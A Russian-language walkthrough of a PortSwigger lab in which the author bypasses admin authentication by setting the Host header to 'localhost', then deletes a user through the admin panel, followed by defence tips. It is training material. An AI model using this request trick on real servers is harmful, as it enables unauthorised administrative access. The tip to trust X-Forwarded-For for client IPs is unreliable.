

лаба https://portswigger.net/web-security/host-header/exploiting/lab-host-header-authentication-bypass

задание:  попасть в админ панель и удалить карлоса

-------

вот базовый ориг запрос (например к му аккаунт)

```http
GET /my-account HTTP/2
Host: 0a7e00c60337eb17814d4857001100f4.web-security-academy.net
Cookie: session=kUsa01lMvXGSRUEvA53ddpjspN17P3yy; _lab=46%7cMCwCFGQC6BoFa95l67jvnMu6p2D667cKAhQo4eAWBur817kuB4nI79kl%2b2w2GQgW94tGHyI9rIPXBhzhMqzszWv%2bSwmGD93%2fji6exhU35q1eODaXcWn0bVEVT5%2fDGzjwotusLXhcp0VoAZXyU%2fRGB5mkweTh4AFPt8t3M9MlGpDslx0%3d
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a7e00c60337eb17814d4857001100f4.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

пробую вот так

```http
GET /admin HTTP/2
```
и законно... ответ 401 невторизован

---------
удалил Cookie 
ответ тот же 401 Unauthorized

++ но + есть сообщение на экране `                   Admin interface only available to local users`

то есть хочет локальную сеть , видимо

пробую 127.......1
не вышло

пробую localhost

сработало

```http
GET /admin HTTP/2
Host: localhost
Cookie: session=kUsa01lMvXGSRUEvA53ddpjspN17P3yy; _lab=46%7cMCwCFGQC6BoFa95l67jvnMu6p2D667cKAhQo4eAWBur817kuB4nI79kl%2b2w2GQgW94tGHyI9rIPXBhzhMqzszWv%2bSwmGD93%2fji6exhU35q1eODaXcWn0bVEVT5%2fDGzjwotusLXhcp0VoAZXyU%2fRGB5mkweTh4AFPt8t3M9MlGpDslx0%3d
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a7e00c60337eb17814d4857001100f4.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

и я попал в админку

то есть целевой хост прежний, но в заголовке сервер читает локал хост и слепо верит ему

и без проверок и авторизаций отдает достпуп к админке, которая без пароля




вот путь со стр на делит карлоса
```html
carlos - </span>
                            <a href="/admin/delete?username=carlos">Delete</a>
                        </div>
```

удалил карлоса - лаба решена

-------

#### защита

не доверять Host header для прнятия решений о безопасности. Административные интерфейсы и другие чувствительные функции не должны открываться только на основании значения Host header

использовать белый список разрешенных доменов. 
Сервер должен проверять Host header по списку допустимых значений и отклонять запросы с нераспознанными хостами

Настроить веб-сервер или reverse proxy так, чтобы доступ к административным панелям был ограничен на уровне сети, а не через проверку Host header

Для ограничения доступа использовать проверку реального IP-адреса клиента (X-Forwarded-For или прямой IP), а не доменное имя

Хранить конфигурационные значения домена в настройках приложения и использовать их вместо Host header при формировании ссылок и принятии решений о доступе.

проверять, что Host header соответствует ожидаемому значению, и перенаправлять запросы с невалидными хостами на стандартную страницу или возвращать ошибку 400


